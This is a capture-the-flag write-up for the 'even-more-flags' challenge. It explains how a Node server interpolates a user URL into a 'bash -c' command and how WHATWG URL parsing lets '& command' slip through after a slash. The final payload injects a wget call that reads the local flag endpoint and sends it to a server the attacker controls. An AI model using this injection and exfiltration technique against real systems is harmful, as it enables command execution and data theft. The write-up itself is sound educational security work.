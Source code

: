 # Even-more-flags Writeup from L.A.R.S.

## Setup

As always, for the local setup we run the docker container:
```bash
docker build -t even-more-flags . && docker run -p 1337:1337 -t even-more-flags
```

And for remote we use the suggested command:
```bash
ncat --ssl even-more-flags.ctf.kitctf.de 443
```
This gives us an instance for 29 minutes -- we can make it!


## Looking around

### Dockerfile

From the `Dockerfile` we can learn that chrome is installed (together with some fonts) and a node server (using `package.json` and `server.js`) is started up.
The flag seems to be stored in `/flag`.

### server.js

From the `server.js` we can learn that there's an interface for entering a URL. After submitting, chrome is started with all the flags from `flags.txt`, opening the url we entered.
Notably, the url is checked:
```js
let parsed = new URL(url);
if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') {
  return res.status(400).send('Invalid URL');
}
```
... and appended like this:
```js
const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags} ${url}"`;
```
After some time it's killed again.

Also, the flag seems to be available with the `/flag` endpoint, but only for localhost connections.

### flags.txt

In `flags.txt` we do indeed seem to find all the flags available.
So it's not even more flags after all!

## Exploiting

### A dream of injection

So the url has to start with `http:` or `https:` and somehow be parsable to a `URL`. That doesn't mean though that no injection is possible:
We *should* be able to append an ampersand after a valid url part, so that *in parallel* to the chrome process, some other process is executed.

The `stdout` seems to be printed to the console, so we should be able to see results in our local docker. So let's try a simple code injection:
```
https://test.org & echo 'Hi!'
```
But that fails:
```js
TypeError: Invalid URL
    at new URL (node:internal/url:797:36)
    at /app/server.js:44:16
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:149:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
    at /app/server.js:20:3
```

There seems to be something wrong... After playing around a bit, we can figure out that the string
```
https://test.org/ & echo 'Hi!'
```
works and `Hi!` is printed to `Stdout`. But *why*?

### Excursion to Nodes URL

From the [documentation](https://nodejs.org/api/url.html#the-whatwg-url-api) we can learn that the `URL` class is
> implemented by following the WHATWG URL Standard.

The problem seems to be that space is [forbidden in the host](https://url.spec.whatwg.org/#host-miscellaneous):
> A forbidden host code point is U+0000 NULL, U+0009 TAB, U+000A LF, U+000D CR, U+0020 SPACE, U+0023 (#), U+002F (/), U+003A (:), U+003C (<), U+003E (>), U+003F (?), U+0040 (@), U+005B ([), U+005C (\), U+005D (]), U+005E (^), or U+007C (|).

As we can see [in this part of the specs](https://url.spec.whatwg.org/#hostname-state) the *host state* ends at a slash and the *path start state* is entered:
> ...
> 3. Otherwise, if one of the following is true:
> - c is the EOF code point, U+002F (/), U+003F (?), or U+0023 (#)
> [...]
> then[...]
> [...]
> 5. Set url’s host to host, buffer to the empty string, and state to path start state. 

There the url [is special](https://url.spec.whatwg.org/#special-scheme), since it's `http` or `https`, so the [*path state*](https://url.spec.whatwg.org/#path-state) is entered.
Since there was indeed a `/`, there's no `\`, the buffer is not a double-dot URL path segment, nor a single-dot URL path segment and the url's scheme is not "file", the buffer is appended to the url's path.
This gets a bit more complicated still, but basically what happens is that the `/` indicates that the stuff afterwards relates to the path, not to the domain.
Otherwise the space is parsed as part of the domain, which is doomed to fail.

So, long story short, if we have a `/` somewhere in the "normal" URL, we can write (almost) everything we want afterwards.


### Just upload it!

With all that we can now inject `bash` code. 
For example, the minimal url to print *Hi* to `stdout` would be:
```bash
http:./ & echo "Hi"
```
Lucky for us that the chrome process doesn't need to do anything sensible with that url...
However, we do want to do something sensible; that is, we don't just want to echo *Hi* to the console, but rather capture the flag!

For that the idea is to read the flag and make an http request to some webserver we control, from which we can read the flag from the logs. This could look something like this then:
```bash
http:./ & wget <some-url-where-we-can-view-logs>?data=`wget localhost:1337/flag -O -`
```

And indeed, if we run this in our docker, we can see the fake flag being submitted in the docker logs, and the fake flag arriving in our server logs.

If we now use this exploit url on the remote, we **receive our flag!**
